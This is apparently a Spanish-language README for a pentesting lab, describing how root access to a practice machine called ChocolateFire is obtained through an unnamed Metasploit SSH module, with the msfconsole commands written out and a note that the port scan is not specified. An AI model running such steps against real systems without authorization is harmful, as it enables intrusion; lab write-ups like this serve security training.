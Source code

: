 # Lab de Pentesting: Acceso root directo mediante explotación de SSH máquina ChocolateFire

Este repositorio documenta el proceso utilizado para obtener acceso root a una máquina mediante explotación del servicio SSH con Metasploit.

---

## Resumen

El objetivo fue identificar los servicios activos, detectar una posible vulnerabilidad en SSH y aprovecharla utilizando un módulo de Metasploit que permite la ejecución remota directa como usuario root.

---

## Herramientas utilizadas

- `ping`
- `nmap` 
- `msfconsole`

---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

Se comprobó que la máquina objetivo está activa en la red.

---

### 2. Escaneo de puertos

(No se especifica, pero se asume un escaneo previo que reveló el servicio SSH.)

---

### 3. Explotación del servicio SSH con Metasploit

Iniciamos Metasploit:

    msfconsole

Buscamos módulos relacionados con SSH. Las opciones 0 y 4 se consideraron útiles. Se eligió la opción 4.

Configuramos los parámetros:

    use 4
    set RHOSTS 172.17.0.2
    set LHOST (Mi IP)
    run

---

### 4. Acceso root exitoso

La explotación fue exitosa y se obtuvo acceso directo como **usuario root**.

---

## Resultados finales

- Acceso root directo conseguido mediante Metasploit.
- Explotación exitosa de una vulnerabilidad crítica en el servicio SSH.

---

## Consideraciones

Este laboratorio es únicamente para fines educativos y de práctica en entornos controlados. No debe aplicarse en sistemas reales sin autorización expresa.
